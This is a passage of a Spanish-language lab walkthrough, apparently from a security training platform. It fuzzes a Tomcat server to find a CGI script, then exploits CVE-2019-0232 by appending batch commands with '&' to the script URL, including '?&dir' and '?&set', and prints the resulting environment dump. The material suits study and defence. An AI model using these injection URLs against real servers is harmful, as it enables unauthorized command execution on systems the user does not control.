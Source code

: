 ```r
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 234ms]
    * FUZZ: welcome

:: Progress: [4614/4614] :: Job [1/1] :: 226 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Navegar a la URL descubierta en `http://10.129.204.227:8080/cgi/welcome.bat` devuelve un mensaje:

```r
Welcome to CGI, this section is not functional yet. Please return to home page.
```

---

## Exploitation

Como se discutió anteriormente, podemos explotar `CVE-2019-0232` agregando nuestros propios comandos mediante el uso del separador de comandos batch `&`. Ahora tenemos una ruta de script CGI válida descubierta durante la enumeración en `http://10.129.204.227:8080/cgi/welcome.bat`

```r
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

Navegar a la URL anterior devuelve la salida del comando batch `dir`, sin embargo, intentar ejecutar otras aplicaciones comunes de línea de comandos de Windows, como `whoami`, no devuelve una salida.

Recuperar una lista de variables ambientales llamando al comando `set`:

```r
# http://10.129.204.227:8080/cgi/welcome.bat?&set

Welcome to CGI, this section is not functional yet. Please return to home page.
AUTH_TYPE=
COMSPEC=C:\Windows\system32\cmd.exe
CONTENT_LENGTH=
CONTENT_TYPE=
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
HTTP_ACCEPT_ENCODING=gzip, deflate
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_HOST=10.129.204.227:8080
HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.JS;.WS;.MSC
PATH_INFO=
PROMPT=$P$G
QUERY_STRING=&set
REMOTE_ADDR=10.10.14.58
REMOTE_HOST=10.10.14.58
REMOTE_IDENT=
REMOTE_USER=
REQUEST_METHOD=GET
REQUEST_URI=/cgi/welcome.bat
SCRIPT_FILENAME=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
SCRIPT_NAME=/cgi/welcome.bat
SERVER_NAME=10.129.204.227
SERVER_PORT=8080
SERVER_PROTOCOL=HTTP/1.1
SERVER_SOFTWARE=TOMCAT
SystemRoot=C:\Windows
```